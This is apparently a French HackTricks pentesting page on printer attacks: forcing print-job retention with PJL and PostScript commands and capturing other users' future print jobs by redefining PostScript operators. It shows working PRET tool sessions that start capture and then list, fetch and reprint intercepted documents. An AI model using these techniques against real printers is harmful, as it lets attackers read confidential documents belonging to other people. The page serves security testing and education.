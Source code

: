 <details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


# Conservation des travaux d'impression

Certaines imprimantes ont des travaux d'impression stockés accessibles depuis le serveur web. Habituellement, cependant, la conservation des travaux doit être explicitement activée pour un travail d'impression donné et peut être réalisée en utilisant des commandes PJL standard ou du code PostScript propriétaire. Les travaux sont alors conservés en mémoire et peuvent être réimprimés à partir du panneau de contrôle.

## PJL

La conservation légitime d'un travail peut être activée pour le document actuel en définissant la variable PJL HOLD comme indiqué ci-dessous :
```
@PJL SET HOLD=ON
[actual data to be printed follows]
```
Les travaux en attente sont conservés en mémoire et peuvent être réimprimés à partir du panneau de contrôle de l'imprimante. Cette fonctionnalité est prise en charge par diverses imprimantes, cependant il semble que seuls certains appareils Epson permettent de définir la rétention permanente des travaux en utilisant `@PJL DEFAULT HOLD=ON`.

**Comment tester cette attaque ?**

Utilisez la commande `hold` de [**PRET**](https://github.com/RUB-NDS/PRET) en mode pjl pour vérifier si la rétention permanente des travaux peut être définie :
```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Setting job retention, reconnecting to see if still enabled
Retention for future print jobs: OFF
```
## PostScript

PostScript offre des fonctionnalités similaires qui sont cependant spécifiques au modèle et au fabricant. Pour la série HP LaserJet 4k et diverses imprimantes Kyocera, la rétention de travaux peut être activée en préfixant les commandes suivantes à un document PostScript :
```
<< /Collate true /CollateDetails
<< /Hold 1 /Type 8 >> >> setpagedevice
```
Bien qu'il soit théoriquement possible d'activer de manière permanente la rétention de travaux PostScript en utilisant l'opérateur [startjob ](./#postscript-ps), ce paramètre est explicitement réinitialisé par CUPS au début de chaque travail d'impression en utilisant `<< /Collate false >> setpagedevice`. Cependant, pour contrer ce mécanisme de protection, l'attaquant peut redéfinir de manière permanente l'opérateur `setpagedevice` pour qu'il n'ait aucun effet.

**Comment tester cette attaque ?**

Utilisez la commande `hold` de [**PRET** ](https://github.com/RUB-NDS/PRET) en mode ps :
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> hold
Job retention enabled.
```
# Capture de travaux

Il est possible, mais peu commun, d'activer la rétention de travaux dans la boîte de dialogue d'impression comme mentionné ci-dessus. Cependant, avec PostScript, on a un contrôle total sur le travail d'impression actuel et avec l'opérateur [startjob](./#postscript-ps), il est même possible de sortir de la boucle du serveur et d'accéder aux travaux futurs. Une telle fonctionnalité a le potentiel de capturer tous les documents si PostScript est utilisé comme pilote d'imprimante.

## PostScript

Avec la capacité de se brancher sur des opérateurs PostScript arbitraires, il est possible de manipuler et d'accéder à des travaux d'impression étrangers. Pour **analyser le flux de données réel envoyé à l'imprimante**, on peut utiliser une fonctionnalité assez cool du langage PostScript : lire son propre code programme comme des données en utilisant l'opérateur `currentfile`. De cette manière, l'ensemble du flux de données à traiter par l'interpréteur PostScript peut être accédé en le lisant et stocké dans un fichier sur le périphérique d'impression. Si l'imprimante n'offre pas d'accès au système de fichiers, **les documents capturés peuvent être stockés en mémoire**, par exemple dans des dictionnaires PostScript permanents. \
Un problème pratique est de décider **quel opérateur devrait être intercepté** car on n'a pas accès au flux de données avant que cet opérateur soit traité par l'interpréteur PostScript. Comme un attaquant veut capturer les travaux d'impression dès le début, l'**opérateur redéfini doit être le tout premier opérateur** contenu dans le document PostScript. Heureusement, tous les documents imprimés avec CUPS sont contraints à une structure fixe commençant par `currentfile /ASCII85Decode filter /LZWDecode filter cvx exec`. En se basant sur l'hypothèse d'une telle structure fixe, l'attaquant peut capturer les documents dès le début et exécuter (c'est-à-dire imprimer) le fichier par la suite. Pour les systèmes d'impression **autres que CUPS**, cette attaque devrait également être possible, mais **les opérateurs doivent être adaptés**. Notez que l'en-tête PostScript qui inclut généralement la taille du support, le nom de l'utilisateur et du travail ne peut pas être capturé en utilisant cette méthode car nous nous branchons d'abord au début du document réel. Une autre stratégie générique pour se brancher au début de chaque travail d'impression est de définir le paramètre système `BeginPage`, s'il est pris en charge par l'imprimante (la plupart des imprimantes le font). Cette vulnérabilité est probablement présente dans les dispositifs d'impression depuis des décennies car seuls les constructions de langage définies par la norme PostScript sont exploitées.

Utilisez la commande `capture` de [**PRET**](https://github.com/RUB-NDS/PRET) en mode ps :
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.

printer:/> capture
Print job operations:  capture <operation>
capture start   - Record future print jobs.
capture stop    - End capturing print jobs.
capture list    - Show captured print jobs.
capture fetch   - Save captured print jobs.
capture print   - Reprint saved print jobs.
printer:/> capture start
Future print jobs will be captured in memory!
printer:/> exit
```
Maintenant, imprimez des documents arbitraires (assurez-vous que PRET est déconnecté pour ne pas bloquer le canal d'impression). Ensuite, vous pouvez lister, récupérer ou réimprimer les documents capturés :
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> capture list
Free virtual memory: 16.6M | Limit to capture:  5.0M
date          size  user           jobname                 creator
───────────────────────────────────────────────────────────────────────────────
Jan 25 18:38  3.1M  -              -                       -
Jan 25 18:40  170K  -              -                       -
printer:/> capture fetch
Receiving capture/printer/690782792
3239748 bytes received.
Receiving capture/printer/690646210
174037 bytes received.
printer:/> capture print
printing...
printing...
2 jobs reprinted
printer:/> capture stop
Stopping job capture, deleting recorded jobs
```
<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
